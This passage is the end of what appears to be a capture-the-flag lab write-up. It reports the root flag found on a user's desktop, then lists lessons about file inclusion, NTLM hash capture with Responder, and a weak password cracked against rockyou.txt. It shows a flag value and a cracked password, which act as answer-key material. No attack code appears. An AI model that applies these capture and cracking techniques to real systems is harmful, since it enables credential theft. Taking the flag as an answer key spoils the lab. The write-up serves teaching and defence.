

We found `flag.txt` on Mike's desktop!

**Root Flag:**
```text
ea81b7afddd03efaa0945333ed147fac
```

## Lessons Learned
- **Input Validation**: Never trust user input, especially for file paths or URLs. Using user-supplied parameters to load files directly leads to File Inclusion vulnerabilities.
- **Service Configuration**: Ensure that services like SMB are properly secured and that outgoing authentication requests (like NTLM) are restricted or disabled if not needed, as tools like Responder can easily capture these hashes.
- **Strong Passwords**: The cracked password "badminton" is weak and easily found in standard dictionaries like `rockyou.txt`. Enforcing strong password policies mitigates offline cracking attacks.
